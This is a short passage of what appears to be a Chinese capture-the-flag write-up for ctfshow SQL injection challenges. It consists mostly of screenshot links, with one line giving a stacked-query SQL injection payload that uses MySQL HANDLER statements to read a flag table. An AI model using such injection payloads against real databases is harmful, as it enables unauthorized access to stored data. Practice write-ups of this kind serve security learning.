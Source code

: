 ![image-20220113183036894](image/ctfshow-sql注入(171-253)/image-20220113183036894.png)

然后查表中内容，`payload：ctfshow';handler ctfshow_flagasa open;handler ctfshow_flagasa read first;`

![image-20220113183231895](image/ctfshow-sql注入(171-253)/image-20220113183231895.png)
